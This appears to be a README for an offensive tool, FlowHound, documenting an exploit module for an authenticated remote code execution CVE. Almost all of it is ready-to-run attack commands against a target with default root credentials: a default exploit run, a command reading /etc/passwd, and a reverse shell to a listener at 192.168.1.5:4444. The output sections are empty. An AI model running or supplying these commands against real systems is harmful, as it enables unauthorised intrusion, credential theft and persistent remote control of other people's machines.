




# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code and read sensitive files including credentials, enabling complete system compromise and lateral movement.

**Impacted Versions:** Versions 1.0.0 through 1.10.0


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873
```




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873 --command "cat /etc/passwd"
```




## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873 --reverse_shell 192.168.1.5:4444
```

### FlowHound CLI Output



### Ncat Output

